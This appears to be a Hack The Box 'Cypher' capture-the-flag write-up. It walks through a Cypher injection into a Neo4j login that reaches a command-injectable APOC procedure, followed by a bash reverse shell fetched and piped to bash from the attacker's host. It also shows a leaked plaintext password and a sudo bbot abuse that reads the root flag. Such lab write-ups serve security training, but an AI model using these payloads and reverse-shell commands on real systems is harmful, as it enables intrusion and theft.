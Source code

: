 ## Recon
-> nmap :
``` bash
╰─ nmap -sC -sV -p- -Pn --min-rate 10000 10.10.11.57 -oN Cypher-nmap 
Nmap scan report for 10.10.11.57
Host is up (0.093s latency).
Not shown: 62691 closed tcp ports (conn-refused), 2842 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-> Add `cypher.htb` to `/etc/hosts`:
`10.10.11.57 cypher.htb`

### source code :
i noticed in the source code a comment to make into consideration for later `TODO: don't store user accounts in neo4j` 
:
```javascript
<script>
    // TODO: don't store user accounts in neo4j
    function doLogin(e) {
      e.preventDefault();
      var username = $("#usernamefield").val();
```

-> This gives me the idea that neo4j handles backend authentication process

-> When i try an xss paylod i get this error :
`<IMG SRC= onmouseover="alert('xxs')">`

![hh](Pasted image 20250423223733.png)

-> Indicating a **Cypher Injection** (injection for GQL), where there is a cypher query to fetch data like this :
```GQL
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<USER_INPUT>' RETURN h.value AS hash
```

### directory fuzzing :


```bash
╰─ gobuster dir -u cypher.htb -w /usr/share/dirb/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 4562]
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
```

![[Pasted image 20250423230317.png]]

#### APOC 
->Neo4j supports the APOC (Awesome Procedures on Cypher) Core library. The APOC Core library provides access to user-defined procedures and functions which extend the use of the [Cypher query language](https://neo4j.com/docs/cypher-manual/current/introduction/) into areas such as data integration, graph algorithms, and data conversion.


-> In the jar we find :
```java
public class CustomFunctions {  
    @Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)  
    @Description("Returns the HTTP status code for the given URL as a string")  
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {  
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {  
            url = "https://" + url;  
        }  
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};  
        System.out.println("Command: " + Arrays.toString(command));  
        Process process = Runtime.getRuntime().exec(command);  
        BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));  
        BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));  
        StringBuilder errorOutput = new StringBuilder();
```

-> This code enables us to do a remote code execution 
### shell creation

First create a shell script to upload to the server :
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.16.86/4444 0>&1" > shell.sh
```

-> Use a python http server to upload it 
```bash
python3 -m http.server 80
```
-> Run a nc listner in the declared port in shell.sh
```bash
nc -lvnp 4444
```

-> In burpsuite use below to gain foothold to the system (upload the shell and execute it)

```json
"username":"haha' return h.value as a UNION CALL custom.getUrlStatusCode(\"cypher.com; curl 10.10.16.86/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//","password":"test"
```

-> Here we get that the shell is uploaded :
```bash
╰─ sudo python3 -m http.server 80

[sudo] password for med: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [24/Apr/2025 00:10:40] "GET /shell.sh HTTP/1.1" 200 -
```

-> And we have a shell :
```bash
╰─ nc -lvnp 4444

Listening on 0.0.0.0 4444
Connection received on 10.10.11.57 40898
bash: cannot set terminal process group (1446): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

-> We find a gfile called `bbot_preset.yml`

```bash
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

-> We connect using ssh to `graphasm` and we got user flag :
```bash
╰─ ssh graphasm@cypher.htb
graphasm@cypher.htb's password: 

graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
```

-> When we use `sudo -l` to see the abilities of our user we fin :
```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot

```
-> Our user can run an app caller bbot (which is an osint app)
-> After a bit of research i found a way to get around it and get the flag inspired by this amazing article : https://azraeldeathangel.medium.com/privilege-escalation-in-linux-via-bbot-binary-92558b4c7f30

-> where i will abuse the yara functionnality by specifying the root flag as a yara rule, the binary bbot then will display it's content in the debug information like this :

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt --debug
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...

[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
...
```
